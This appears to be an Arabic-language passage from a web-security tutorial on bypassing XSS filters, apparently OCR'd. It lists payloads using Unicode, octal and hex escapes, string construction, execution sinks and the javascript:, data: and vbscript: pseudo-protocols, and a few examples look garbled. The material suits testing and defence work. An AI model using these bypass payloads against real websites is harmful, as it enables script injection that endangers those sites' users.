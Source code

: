 ##### **4.2.2.1: التهرب من الأحرف**
تدعم JavaScript أنواعًا مختلفة من التشفير لتجاوز مرشحات الكلمات:
- **التشفير بـ Unicode**:
  - `<script>\u0061lert(1)</script>`: يستخدم `\u0061` لتمثيل `a`.
  - `<script>eval("\u0061lert(1)")</script>`: ينفذ السلسلة المشفرة باستخدام `eval`.
- **التشفير الثماني/السداسي**:
  - `<img src=x onerror="eval('\141lert(1)')"/>`: يستخدم الثماني (`\141` = `a`).
  - `<img src=x onerror="eval('\x61lert(1)')"/>`: يستخدم السداسي (`\x61` = `a`).
- **مرجع الأحرف العددية (NCR)**:
  - `<img src=x onerror="eval('\a\l\ert\(1\)')"/>`: يستخدم أحرف هروب إضافية.
- **التشفير المدمج**:
  - `<img src=x onerror="\u0065val('\141\u006cert\(1)')"/>`: يجمع بين أنواع التشفير.

##### **4.2.2.2: بناء السلاسل**
يمكن بناء السلاسل لتجاوز مرشحات الكلمات:
- `/ale/.source+/rt/.source`: يجمع `ale` و`rt` لتكوين `alert`.
- `String.fromCharCode(97,108,101,114,116)`: ينشئ `alert` باستخدام قيم ASCII.
- `atob("YWxlcnQ=")`: يفك تشفير Base64 لتكوين `alert`.
- `17795081..toString(36)`: يحول الرقم إلى `alert` باستخدام القاعدة 36.

##### **4.2.2.3: أحواض التنفيذ (Execution Sinks)**  
أحواض التنفيذ هي دوال JavaScript التي تحول السلاسل إلى أكواد قابلة للتنفيذ. أمثلة تشمل:
- `setTimeout("JSCode")`: ينفذ الكود بعد تأخير.
- `setInterval("JSCode")`: ينفذ الكود بشكل متكرر.
- `setImmediate("JSCode")`: ينفذ الكود فورًا (في IE 10+).
- `Function("JSCode")`: ينشئ دالة من سلسلة.
- `[].constructor.constructor(alert(1))`: يستخدم باني `Array` أو `Object` لتنفيذ الكود.

(رابط: https://code.google.com/p/domxsswiki/wiki/ExecutionSinks).

##### **4.2.2.4: البروتوكولات الزائفة (Pseudo-Protocols)**
البروتوكولات الزائفة مثل `javascript:`، `data:`، و`vbscript:` تتيح تنفيذ الأكواد في سياقات محددة.

###### **4.2.2.4.1: بروتوكول `javascript:`**
يُستخدم لتنفيذ JavaScript في عناوين URL (مثل `<a href="javascript:alert(1)">`). يمكن تجاوز مرشحات `javascript:` باستخدام:
- تغيير حالة الأحرف: `<object data="JaVaScRiPt:alert(1)">`.
- إضافة مسافات: `<object data="java script:alert(1)">`.
- التشفير: `<object data="javascript:alert(1)">` مع اختلافات في المسافات.

###### **4.2.2.4.2: بروتوكول `data:`**
يسمح بتضمين بيانات في URL، غالبًا مع تشفير Base64 (RFC 2397). أمثلة:
- `<object data="data:text/html,<script>alert(1)</script>">`: يضمن سكربت HTML.
- `<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">`: يستخدم Base64.
- تجاوز مرشحات `data:` باستخدام `DaTa:` أو اختلافات أخرى.

###### **4.2.2.4.3: بروتوكول `vbscript:`**
خاص بـ Internet Explorer (حتى IE11 في وضع غير Edge). أمثلة:
- `<img src=x onerror="vbscript:msgbox 1"/>`: ينفذ رسالة VBScript (حتى IE8).
- `<img src=x onerror="vbs:alert(3)"/>`: يستخدم الاختصار `vbs:`.
- عدم حساسية الأحرف: `<iMg src=a onErRor="vBsCriPt:AlErT(4)"/>`.
- بايت الصفر: `<img src=x onerror="v�bs�cri pt:alert(1)">`.
- **أداة Script Encoder**: أداة من Microsoft لتشفير VBScript/JScript (مثل `<script language="VBScript.Encode">...`). أدوات عبر الإنترنت مثل Scripts Encryptor متاحة (رابط: http://dennisbabkin.com/screnc/).

